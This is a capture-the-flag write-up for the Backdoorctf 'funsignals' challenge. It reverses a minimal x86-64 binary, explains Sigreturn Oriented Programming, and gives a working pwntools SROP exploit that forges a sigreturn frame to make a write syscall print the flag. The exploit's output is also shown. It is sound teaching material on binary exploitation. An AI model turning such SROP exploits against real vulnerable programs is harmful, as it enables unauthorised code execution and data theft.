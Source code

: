 # Backdoorctf Funsignals

Let's take a look at the binary (also the goal of this challenge will be to print the flag, not pop a shell):

```
$    file funsignals_player_bin
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
$    pwn checksec funsignals_player_bin
[*] '/Hackery/pod/modules/srop/backdoor_funsignals/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
$    /funsignals_player_bin
15935728
Segmentation fault (core dumped)
```

So we can see that it is a `64` bit statically linked binary, with none of the standard binary mitigations. When we run it, we see that it scans in input, then seg faults.

## Reversing

Looking at the code in Ghidra, we see that this isn't a normal binary (probably just assembled versus compiled). Looking at the assembly code we see this:

```
                             //
                             // .shellcode
                             // SHT_PROGBITS  [0x10000000 - 0x1000004a]
                             // ram: 10000000-1000004a
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined entry()
             undefined         AL:1           <RETURN>
                             _start                                          XREF[4]:     Entry Point(*),
                             __start                                                      _elfHeader::00000018(*),
                             entry                                                        _elfProgramHeaders::00000010(*),
                                                                                          _elfSectionHeaders::00000050(*)  
        10000000 31 c0           XOR        EAX,EAX
        10000002 31 ff           XOR        EDI,EDI
        10000004 31 d2           XOR        EDX,EDX
        10000006 b6 04           MOV        DH,0x4
        10000008 48 89 e6        MOV        RSI,RSP
        1000000b 0f 05           SYSCALL
        1000000d 31 ff           XOR        EDI,EDI
        1000000f 6a 0f           PUSH       0xf
        10000011 58              POP        RAX
        10000012 0f 05           SYSCALL
        10000014 cc              INT        3
```

So we can see here, it executes two syscalls. For the first, the registers are equal to this:

```
RAX:    0x0
RDI:    0x0
RDX:    0x400
RSI:    ptr to top of stack (stack pointer rsp)
```

So here it is making a read syscall (check https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details). It is scanning in `0x400` bytes of data via stdin into the top of the stack.

For the next syscall, the registers are equal to this:

```
RAX:    0xf
RDI:    0x0
```

So here it is performing a Sigreturn syscall. When the kernel delivers a signal from a program, it creates a frame on the stack before it is passed to the signal handler. Then after that is done that frame is used as context for a sigreturn syscall to return code execution to where it was interrupted. It does this by popping values off of the top of the stack into registers, which were stored there so execution could continue after the signal is dealt with. The syscall itself takes a single argument in the rdi register (however for our use, it's not important in this context). We can tell that a sigreturn syscall is being made since it pops the value 0xf into the rax register before making the syscall to speecify a sigreturn syscall. Checkout https://lwn.net/Articles/676803/ and https://thisissecurity.stormshield.com/2015/01/03/playing-with-signals-an-overview-on-sigreturn-oriented-programming/ for more.

Also another important thing to note, we can see that the flag is stored in the binary at the address `0x10000023`:

```
                             flag
        10000023 66 61 6b        ds         "fake_flag_here_as_original_is_at_server"
                 65 5f 66
                 6c 61 67
```

## Exploitation

So for our exploitation, we will be doing a Sigreturn Oriented Programming attack (SROP). Essentially what that is is when we use a sigreturn to take control of the all of the registers. Since we get to scan in `0x400` bytes worth of data to the top of the stack which is pointed to by the `rsp` register (along with the fact that it makes a sigreturn call after that), and a sigreturn pops values off of the top of the stack into the registers.

SROP is really useful in a lot of cases where traditional ROP won't work. It gives us control of the instruction pointer which is executed, and all other registers.

Just if you're curiosus, this is the sigcontext structure that is stored on the stack, which is used by the `sigreturn` to pop values into the register (for `x64`). This diagram is originally from https://amriunix.com/post/sigreturn-oriented-programming-srop/:

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```

So now is the question of what will we do with our syscall. Looking through the code, we can see multiple syscalls (both will work for our purposes, doesn't matter too much for our purposes):

```
        1000000b 0f 05           SYSCALL
```

```
        10000012 0f 05           SYSCALL
```

So using the sigreturn, we can set `rip` to either address and execute a syscall. Since we have control over the registers, we can control what syscall is made. We can just go with a write syscall, to print the contents of the flag to us. To do that, we will need to set the following registers equal to these values:

```
RIP:    0x1000000b (address of a syscall, could use other syscalls)
RAX:    0x1 (specify write syscall)
RDI:    0x1 (specify stdout to write it to)
RSI:    0x10000023 (address of the flag)
RDX:    0x400 (amount of bytes to print, 0x400 is clearly overkill)
```

## Exploit

Putting it all together, we have the following exploit. Also one thing, pwntools has the capability to automatically build out a sigreturn frame, you just need to specify what values you want for what registers. It makes this really easy:

```
from pwn import *

target = process('./funsignals_player_bin')

# Specify the architecture
context.arch = "amd64"

frame = SigreturnFrame()

# Specify rip to point to the syscall instruction
frame.rip = 0x1000000b

# Prep the registers for a write syscall
frame.rax = 0x1
frame.rdi = 0x1
frame.rsi = 0x10000023
frame.rdx = 0x400

# Send the sigreturn frame
target.send(str(frame))

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './funsignals_player_bin': pid 7092
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00��\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x00\x00\x00\x15\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00#\x00\x00\x00\x00\x00\x00#\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00)\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00C\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00/tmp/pwn-asm-T0zexC/step2\x00syscall\x00flag\x00__start\x00__bss_start\x00_edata\x00_end\x00\x00.symtab\x00.strtab\x00.shstrtab\x00.shellcode\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00K\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x88\x11\x00\x00\x00\x00\x00\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x10\x00\x00\x00\x00\x00\x00�\x00\x00\x00\x00\x04\x00\x00\x00\x05\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00    \x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x11\x00\x00\x00\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\[*] Got EOF while reading in interactive
```

Just like that, we got the flag (followed by a lot of null bytes)!